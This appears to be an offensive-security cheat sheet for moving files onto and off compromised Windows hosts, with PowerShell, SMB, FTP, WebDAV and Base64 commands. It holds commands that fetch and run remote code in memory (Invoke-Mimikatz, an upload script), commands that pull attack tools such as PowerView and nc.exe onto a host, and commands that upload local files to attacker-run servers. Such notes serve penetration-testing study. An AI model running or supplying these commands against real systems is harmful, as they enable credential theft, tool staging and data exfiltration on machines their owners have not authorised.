 pyth## Downloads

### PowerShell DownloadFile Method

```powershell
## Downloading from HTTP/HTTPS Server
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

## Invoking file directly w/o downloading file
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

### PowerShell Invoke-WebRequest

```bash
## PowerShell 3.0 onwards
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### SMB Downloads

```bash
## Create SMB server for download
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```powershell
net use n: \\192.168.220.133\share /user:test test

## Copy file from remote SMB established
copy \\192.168.220.133\share\nc.exe
```

### FTP Downloads

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

## Uploads

### PowerShell Web Upload

```powershell
## Create uploading server
pip3 install uploadserver
python3 -m uploadserver

## Normal file upload
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

## Base64 file upload
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

### SMB Uploads

WebDAV extension of HTTP/HTTPS - Enables webserver to behave like a fileserver
```bash
sudo pip install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```powershell
## DavWWWRoot is a special keyword recognized by the Windows Shell, which handles WebDAV requests that you are connecting to the root of the WebDAV server.
dir \\192.168.49.128\DavWWWRoot

copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\

copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

### FTP Uploads

```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

## Encoding/Decoding

### Base64 Encoding

```powershell
## Encoding file
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

## Specific text encoding
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Text))
```

### Base64 Decoding

```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\<filetosave>", [Convert]::FromBase64String("<base64-string>"))
```